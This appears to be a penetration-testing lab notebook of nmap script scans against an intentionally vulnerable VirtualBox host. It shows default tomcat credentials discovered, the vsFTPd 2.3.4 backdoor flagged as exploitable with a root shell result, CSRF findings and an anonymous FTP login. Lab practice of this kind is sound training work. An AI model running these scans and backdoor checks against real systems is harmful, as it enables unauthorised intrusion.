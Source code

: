 # Finding Vulnerability with nmap scripts

```nmap --script auth <Target ip> -sS```

# tomcat exploit

```
Post-scan script results:
| creds-summary: 
|   192.168.87.109: 
|     8180/unknown: 
|       tomcat:tomcat - Valid credentials
|_      tomcat:tomcat - Valid credentials
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds
```

```nmap -script malware 192.168.87.109 -sS -F```

```nmap -script banner 192.168.87.109 -sS -F```

```
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://www.securityfocus.com/bid/48539
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
53/tcp   open  domain
80/tcp   open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.87.109
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.87.109:80/dvwa/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=dns-lookup.php
|     Form id: iddnslookupform
|     Form action: index.php?page=dns-lookup.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=register.php
|     Form id: id-bad-cred-tr
|_    Form action: index.php?page=register.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
513/tcp  open  login
514/tcp  open  shell
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
8009/tcp open  ajp13
MAC Address: 08:00:27:42:FE:60 (Oracle VirtualBox virtual NIC)
```

```nmap -script ftp-anon.nse 192.168.87.109```

```
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

FTP anonymous

ftp 192.168.87.109

Connected to 192.168.87.109.
220 (vsFTPd 2.3.4)
Name (192.168.87.109:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

### Analysis and Searchsploit

searchsploit UnrealIRCd